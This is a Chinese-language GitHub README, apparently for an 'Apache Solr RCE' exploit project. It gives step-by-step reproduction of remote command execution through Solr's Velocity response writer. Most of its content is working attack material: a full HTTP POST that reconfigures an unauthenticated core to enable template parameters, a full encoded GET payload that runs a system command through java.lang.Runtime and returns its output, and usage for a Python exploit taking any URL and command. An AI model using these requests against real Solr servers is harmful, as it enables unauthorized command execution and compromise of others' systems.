 # Apache Solr rce

### 复现过程

step1:
通过Solr未授权访问，访问Core Admin，获取Path
![image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031164421.png)

step2:
修改配置
```
POST /solr/(第一步获取到的Path)/config HTTP/1.1
Host: ip:8983
User-Agent: xxx
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165408.png)

step3:
执行命令
```
GET /solr/(第一步获取到的Path)/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: xxx:8983
User-Agent: xxx
```
![image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165755.png)

### python exp

使用方法：
python solr_rce.py url "command"
![image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031170416.png)
